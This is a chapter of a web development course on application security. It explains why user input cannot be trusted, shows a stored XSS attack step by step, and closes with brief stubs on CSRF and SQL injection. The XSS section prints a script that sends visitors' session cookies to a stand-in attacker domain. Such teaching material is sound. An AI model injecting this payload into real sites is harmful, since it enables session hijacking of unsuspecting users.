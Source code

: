 # 9.9: Security

App security is an important aspect of anything that is on the internet. Depending on the type of application security could be a crucial aspect of the operation of an app.

#### Securing an App

There is no such thing as a perfectly secure web application. The most secure software application that can be made would be installed on an [air gapped computer](https://en.wikipedia.org/wiki/Air_gap_%28networking%29) in a hermetically sealed room. It would be difficult to even give input or get any output from this theoretical computer since every possible mode of interaction could introduce security vulnerabilities. \(A computer can be vulnerable if someone can simply [listen to a user typing on the computer](https://en.wikipedia.org/wiki/Acoustic_cryptanalysis)\).

Many security vulnerabilities will simply result from human behavior and for which there is no technical solution, e.g., users [writing their passwords](https://arstechnica.com/information-technology/2015/04/hacked-french-network-exposed-its-own-passwords-during-tv-interview/) on [post-its.](https://www.vice.com/en/article/qvwmx5/the-agency-that-messed-up-hawaiis-nuclear-alert-keeps-passwords-on-post-its-vgtrn)

#### Making an App Secure

The process of making an application secure involves applying industry best-practices, some of which we have already covered, such as hashing passwords. These best practices would also include organizational processes, such as limiting employees' access to sensitive company data. We won't be able to cover every single best practice here, as it also depends on which features are included into an app.

There are many resources on the web for application security:

- [OWASP](https://owasp.org/www-project-top-ten/)
- [Ruby on Rails Security](https://guides.rubyonrails.org/security.html)
- [MDN](https://developer.mozilla.org/en-US/docs/Web/Security)

#### Don't Trust User Input

The essential principle for security of web apps is: _**Don't Trust User Input**_. If this principle is followed when constructing any feature of the app then the attack surface will be reduced significantly. We'll define user input broadly as anything that the app receives in a request.

In the following examples we'll see some ways in which the user input was not treated as dangerous, which can lead to some wide-ranging consequences.

In general we'll also see that in order to exploit any security vulnerability the attacker must have comprehensive knowledge of how a web application system works, from HTTP to JavaScript, etc. That also means that in order to assure the security of an application, that person must also have a deep understanding of all levels of the application.

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```text
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

```text
<script>
var allCookies = document.cookie;

// don't do an AJAX request in case there are CORS issues
// create an image tag
var imgEl = document.createElement('img');

// settting the img src causes the browser to try and request from this domain
imgEl.src = 'http://my-bad-domain.com?'+allCookies;
</script>
```

CSRF

A request can be sent as the viewing user.

A request can be forged by an attacker.

SQL Injection

Any SQL can be run on the system.
